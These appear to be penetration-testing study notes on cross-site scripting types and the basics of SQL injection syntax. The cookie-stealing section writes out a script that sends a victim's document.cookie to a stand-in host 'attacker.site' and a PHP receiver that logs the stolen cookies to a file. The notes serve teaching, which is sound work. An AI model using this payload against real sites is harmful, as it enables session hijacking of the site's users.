                 - To test XSS, you can inject some valid HTML/ JavaScript code, like `<script>alert('XSS')</script>`
                - To exploit an XSS vulnerability that you find, you need to know the type of cross-site scripting attack you are carrying out. Cross-site scripting vulnerabilities can be reflected, persistent or DOM Based.
            - Reflected XSS Attacks:
                - Reflected attacks happen when the malicious payload is carried inside the request that the browser of the victim sends to the vulnerable website.
                - They could be triggered by posting a link on a social network or via a phishing campaign. When users click on the link, they trigger the attack.
                - Reflected XSS Filters:
                    - Some browsers, like Google Chrome, have a reflected XSS filter built in. This means that they will not run some XSS reflected attacks.
                    - The reality is that they can only filter trivial and known XSS attacks. There are advanced attacks that can bypass Anti-XSS filters.
                - Persistent XSS Attacks:
                    - Persistent XSS attacks occur when the payload is sent to the vulnerable web server and then stored. When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload.
                    - It is called persistent because the malicious code gets delivered each and every time a web browser hits the "injected" web page.
                    - This is a very dangerous form of XSS because, with a single attack, the hacker can exploit multiple web application users.
                    - The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users.
                    - Elements such as comments, user profiles, and forum posts are a potential vector for XSS attacks.
                - Cookie Stealing via XSS:
                    - JavaScript can access cookies if they do not have the HttpOnly flag enabled; this means that an XSS attack can be used to steal the cookies. In many cases, stealing a cookie means stealing a user session!
                    - `<script> alert(document.cookie)</script>`
                    - ```javascript
<script>
  var i=new Image();
	i.src="http://attacker.site/log.php?q="+document.cookie;
</script>```
                    - The log.php script saves the cookie in a text file on the attacker.site:
                    - ```javascript
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>```
                - Resources:
                    - The Web Application Hacker's Handbook
                    - OWASP-XSS
        - SQL Injections
            - SQL Injection (SQLi) attacks allow an unauthorized user to take control over SQL statements used by a web application.
            - This kind of attack has a huge impact on a web site because getting control over a backend database means controlling:
                - User's credentials
                - Data of the web application
                - Credit card numbers
                - Shopping transactions
                - And much more!
            - SQL Statements:
                - `SELECT name, description FROM products WHERE id=9;`
                - `SELECT <columns list> FROM <table> WHERE <condition>;`
                - `<SELECT statement> UNION <other SELECT statement>;`
                - Comments -- # or --
                    - `SELECT field FROM table; # this is a comment`
